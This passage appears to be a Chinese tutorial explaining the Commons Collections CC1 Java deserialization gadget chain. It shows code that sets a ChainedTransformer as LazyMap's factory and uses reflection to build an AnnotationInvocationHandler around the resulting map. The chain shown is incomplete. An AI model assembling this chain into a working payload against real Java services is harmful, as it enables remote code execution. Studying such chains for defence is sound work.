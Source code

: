 - 思路：需要找到一条链，以readObject为触发起点，一步步调用到transform方法。（直接找到能在readObject后就调用是当然最好的）

##### **LazyMap**

CC1是LazyMap中的get方法触发。

```Java
public class LazyMap extends AbstractMapDecorator implements Map, Serializable {
     protected final Transformer factory;
     ...   // 在factory属性里面，是Transformer接口型的
     public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }
     ...
     public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
}
```

而ChainedTransformer就是Transformer接口的一个实现，那么这个factory我们就可以给它设置成transformerChain

```java
Transformer transformerChain = new ChainedTransformer(transformers);
...
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```

以上便实现outerMap一旦被调用，就会触发get，就会触发ChainedTransformer#transform

现在的事情就是让LazyMap#get()被触发来延长利用链：



##### AnnotationInvocationHandler

基于JDK在每个服务器上都会有，而其他的第三方依赖不一定。

所以我们希望在找到一个在JDK里面的类，让他在被反序列化时触发。

于是找到AnnotationInvocationHandler

```java 
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class); // 找到AIH里面，需要这两参数的构造方法
        construct.setAccessible(true);  // 绕过私有字段
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap); // 实例化这个构造方法，传入 outerMap
                      // 第一个参数 要求是注解类即可
```
